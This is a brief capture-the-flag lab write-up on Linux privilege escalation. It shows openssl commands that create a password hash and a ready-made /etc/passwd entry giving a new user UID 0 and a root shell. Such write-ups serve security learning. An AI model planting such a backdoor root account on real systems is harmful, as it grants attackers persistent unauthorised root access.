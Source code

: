 # Common_Linux_Privesc 

> VOiD | Monday 02 August 2021 09:37:37 AM IST

My IP : 10.17.6.109
Target IP : 10.10.220.2



Before we add our new user, we first need to create a compliant password hash to add! We do this by using the command: 
```bash
openssl passwd -1 -salt [salt] [password]
openssl passwd -1 -salt new 123
$1$new$p7ptkEKU1HnaHpRtzNizS1

new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash
copy it to etc passwd
```